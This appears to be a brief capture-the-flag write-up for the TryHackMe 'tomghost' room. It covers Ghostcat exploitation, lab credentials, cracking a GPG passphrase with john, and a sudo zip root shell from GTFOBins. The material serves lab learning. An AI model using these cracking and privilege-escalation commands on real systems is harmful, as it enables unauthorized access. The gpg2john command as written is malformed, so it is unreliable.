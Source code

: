 #gpg #zip

https://tryhackme.com/r/room/tomghost

---
#### Nmap
![[Screenshot_2024-05-25_10-31-12.png]]

I used the `Ghostcat` [exploit](https://www.exploit-db.com/exploits/49039) on `Metasploit` framework and I simply get the ssh credentials `skyfuck:8730281lkjlkjdqlksalks`

And here I m in

There are `GPG` files on the user's home, so I used
```shell
gpg2john > tryhackme.asc > hash
```
And then:
```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
To get the password `alexandru`

With that, I imported the key with the password:
```shell
gpg --import tryhackme.asc
```
Then I extracted the `credential.pgp` content with 
```shell
gpg -d credential.pgp
```

And here are some new credentials `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

And here I m in with the user's flag on merlin's home

After the classic `sudo -l`, I saw we can run `zip` as sudo, the solution were on [GTFObins](https://gtfobins.github.io/gtfobins/zip/)

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

And here I m root

